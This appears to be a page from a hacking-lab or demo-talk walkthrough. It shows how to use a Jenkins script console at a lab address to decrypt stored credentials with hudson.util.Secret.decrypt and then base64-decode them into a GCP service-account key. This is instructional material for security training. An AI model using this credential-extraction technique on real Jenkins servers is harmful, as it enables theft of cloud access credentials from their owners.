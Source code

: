 ```yaml
---
title: Jenkins Decrypt
weight: 23
---
```


Now that we're in Jenkins, we'll look a bit around.

# Explore Secrets

As we can see, there are predefined secrets. Some of them are maybe used for Terraform. Why not decrypt them!

Let's first get the secret:
{{% expand "Solution" %}}
Open the following url:

```bash
http://jenkins.test.nevervictimconsult.xyz/script
```

Then start the following script:

```bash
println( hudson.util.Secret.decrypt("${ENCRYPTED_PASSPHRASE_OR_PASSWORD}") )
```

Where ${ENCRYPTED_PASSPHRASE_OR_PASSWORD} is the encrypted content of the <password> or <passphrase> XML element that you are looking for.

 In order to get the password value of ${ENCRYPTED_PASSPHRASE_OR_PASSWORD} go to credentials, update, in the browser "See source code" and you will get the encrypted password in the data field for password. Then use that function.

{{% /expand %}}

Now guess what you've just got. It is the base64 encoded json string for authenticating to GCP!

We still need to decrypt it of course:

{{% expand "Solution" %}}

```bash
mkdir -p /root/demotalk/cloudAccess
cd /root/demotalk/cloudAccess
nano encoded.json
```

Paste the string into encrypted.json. and decode it then:

```bash
cd /root/demotalk/cloudAccess
cat encoded.json | base64 --decode > gcpSa.json
```

{{% /expand %}}

Congratulations, you have just leaked a secret to authenticate to GCP!
